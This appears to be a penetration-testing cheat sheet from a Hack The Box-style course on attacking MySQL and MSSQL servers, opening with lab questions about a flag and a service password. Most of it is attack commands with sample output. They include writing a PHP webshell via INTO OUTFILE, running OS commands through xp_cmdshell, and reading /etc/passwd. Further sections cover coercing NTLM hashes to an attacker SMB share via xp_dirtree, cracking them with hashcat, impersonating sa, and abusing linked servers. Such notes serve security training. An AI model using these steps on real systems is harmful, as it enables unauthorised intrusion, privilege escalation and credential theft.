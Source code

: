 ```yaml
---

---
```


Enumerate the "flagDB" database and submit a flag as your answer.

What is the password for the "mssqlsvc" user?

10.129.17.18

# SQL

## Connect

```bash
# MySQL
mysql -u julio -pPassword123 -h 10.129.20.13

# MSSQL
# Win
c:\> sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30

# Lin
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
# SERVERNAME\\accountname or .\\accountname for local
sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h
# Alt
mssqlclient.py -p 1433 julio@10.129.203.7 
```

## SQL Syntax

### Database data

show db -> use db -> -> sh tbl - get tbl data

```sql
# MySQL
SHOW DATABASES;
USE htbusers;
SHOW TABLES;
SELECT * FROM users;

# MSSQL
SELECT name FROM master.dbo.sysdatabases
USE htbusers
SELECT table_name FROM htbusers.INFORMATION_SCHEMA.TABLES
1> SELECT * FROM tb_flag
2> go
```

### Command execution

```sql
# MySQL
show variables like "secure_file_priv"; # Check if empty
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

# MSSQL
1> xp_cmdshell 'whoami'
2> GO

output
-----------------------------
no service\mssql$sqlexpress
NULL
(2 rows affected)
```

### Read local files

```sql
# MySQL
mysql> select LOAD_FILE("/etc/passwd");

# MSSQL
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

## Capture MSSQL Service Hash

Start [Responder](https://github.com/lgandx/Responder) or [impacket-smbserver](https://github.com/SecureAuthCorp/impacket)

```bash
sudo responder -I tun0

sudo impacket-smbserver share ./ -smb2support

# Crack it
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

```mssql
# XP_DIRTREE Hash Stealing
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO

#XP_SUBDIRS Hash Stealing
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```

## Impersonate Existing Users with MSSQL

Sysadmins can impersonate anyone by default, But for non-administrator users, privileges must be explicitly assigned.

```mssql
# Identify users
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO

name
-----------------------------------------------
sa
ben
valentin

# Verify current user and role
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go

-----------
julio                                                                                                                    

(1 rows affected)

-----------
          0 # No sysadmin role go for sa

# Impersonate sa
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO

-----------
sa

(1 rows affected)

-----------
          1
          

```

## MSSQL - [Linked Servers](https://docs.microsoft.com/en-us/sql/relational-databases/linked-servers/create-linked-servers-sql-server-database-engine)

```mssql
# Identify - 1 is remote 2 is linked
1> SELECT srvname, isremote FROM sysservers
2> GO

srvname                             isremote
----------------------------------- --------
DESKTOP-MFERMN4\SQLEXPRESS          1
10.0.0.12\SQLEXPRESS                0

# Get user and privs
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO

DESKTOP-0L9D4KA\SQLEXPRESS     Microsoft SQL Server 2019 (RTM sa_remote   1
```

## Vulns

- MMSQL - SMB relay or xp_dirtree

